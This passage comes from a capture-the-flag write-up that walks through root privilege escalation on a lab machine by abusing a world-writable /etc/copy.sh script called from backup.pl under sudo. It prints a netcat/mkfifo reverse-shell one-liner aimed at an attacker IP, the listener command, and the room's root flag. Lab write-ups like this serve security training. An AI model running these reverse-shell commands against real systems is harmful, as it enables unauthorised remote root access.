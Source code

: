 We see that running this file runs the file `/etc/copy.sh`. We can run that file as well as root.

Viewing this file:
```bash
$ cat /etc/copy.sh                                                                                            
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ ls -lah /etc/copy.sh
-rw-r--rwx 1 root root 82 Dec 17 22:49 /etc/copy.sh

```

We see that it is basically spawning a reverse shell and we can run and write to it as root. 
Therefore, we just need to change the IP address in that file, and then run the `backup.pl` file as root to gain access to a root shell.

> Modifying the `copy.sh` file to connect back to our attacking machine:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.73.192 5554 >/tmp/f" > /etc/copy.sh
```

Now we can run the `backup.pl` script, but first we open a netcat listener on port 5554.

```shell
nc -nlvp 5554
```

Now we can run `backup.pl` as sudo.
```
sudo perl backup.pl
```

We get a connection, and we are root:

```
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

###### What is the root flag?: `THM{6637f41d0177b6f37cb20d775124699f}` .

---

